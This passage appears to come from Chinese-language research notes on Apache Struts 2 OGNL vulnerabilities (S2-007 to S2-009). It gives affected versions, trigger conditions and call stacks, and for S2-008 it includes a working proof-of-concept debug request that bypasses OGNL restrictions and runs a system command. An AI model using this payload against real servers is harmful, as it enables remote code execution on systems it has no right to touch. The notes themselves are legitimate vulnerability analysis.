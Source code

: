 表达式

- 最终解析：Raw
- 抽象模型：(1)(2)+(1)((2)(3))

特点

1. 控制`denyMethodExecution=false`和`allowStaticMethodAccess=true`绕过安全限制

### [S2-007](https://cwiki.apache.org/confluence/display/WW/S2-007)

触发条件

1. Struts 2.0.0 - 2.2.3

### [#S2-008](https://cwiki.apache.org/confluence/display/WW/S2-008)

触发条件

1. Struts 2.1.0 - 2.3.1
1. 启用DevMode

作用域

1. 任意action *（struts-default.xml -> DebuggingInterceptor）*

底层G点

`ValueStack.findValue()`

    [ PoC样本 ]
        ?debug=command
        &expression=(#context['xwork.MethodAccessor.denyMethodExecution']=false,#_memberAccess['allowStaticMethodAccess']=true,@java.lang.Runtime@getRuntime().exec('calc'))

    [ 关键调用栈 ]
        // TODO: 看看是什么时候进这个拦截器的
        -> org.apache.struts2.interceptor.debugging.DebuggingInterceptor.intercept()
        -> com.opensymphony.xwork2.util.OgnlValueStack.findValue()
        -> com.opensymphony.xwork2.ognl.OgnlUtil.getValue()

表达式

- 最终解析：Raw
- 抽象模型：(1,2)

### [S2-009](https://cwiki.apache.org/confluence/display/WW/S2-009) *（，S2-005 Fixed-Bypass）*

触发条件

1. Struts 2.0.0 - 2.3.1.1

作用域

1.
